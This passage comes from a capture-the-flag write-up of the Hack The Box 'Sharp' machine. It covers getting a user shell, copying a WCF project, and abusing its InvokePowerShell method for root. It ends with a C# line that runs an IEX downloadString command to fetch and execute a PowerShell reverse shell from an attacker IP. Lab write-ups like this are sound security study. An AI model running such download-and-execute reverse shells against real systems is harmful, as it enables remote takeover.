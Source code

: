 run the compiled binary

![Desktop View]({{ "/assets/img/htb-machines/sharp/29.png" | relative_url }})

Ignore the errors. After some seconds, i got shell as lars and also completed user part

### user.txt

![Desktop View]({{ "/assets/img/htb-machines/sharp/30.png" | relative_url }})

Lets enumerate for root now

## Root

found another binary in Documents folder

![Desktop View]({{ "/assets/img/htb-machines/sharp/31.png" | relative_url }})

Windows Communication Foundation here
lets copy it to our system there are lot of files lets compress it first


```cmd
Compress-Archive -Path C:\Users\lars\Documents\wcf -DestinationPath C:\Users\lars\Documents\wcf . zip
```
read about compress archive [here](https://blog.netwrix.com/2018/11/06/using-powershell-to-create-zip-archives-and-unzip-files/)
lets transfer it to dev share as lars has access to it

```cmd

PS C:\Users\lars\Documents> Move-Item -Path
C:\Users\lars\Documents\wcf.zip -Destination C:\dev

```
![Desktop View]({{ "/assets/img/htb-machines/sharp/32.png" | relative_url }})

Download it now

![Desktop View]({{ "/assets/img/htb-machines/sharp/33.png" | relative_url }})

we have sln file lets open it using visual studio

**Client:**
it's using 8889 port to communicate.

![Desktop View]({{ "/assets/img/htb-machines/sharp/34.png" | relative_url }})

also there is invokepowershell method looks intresting	
![Desktop View]({{ "/assets/img/htb-machines/sharp/35.png" | relative_url }})

i can add reverse shell in it and i can run it using invokepowershell  in client main method

```cs
// reverse shell
Console.WriteLine(client.InvokePowerShell("IEX(New-Object Net.WebClient).downloadString('http://10.10.14.156:80/rootshell.ps1')"));
```
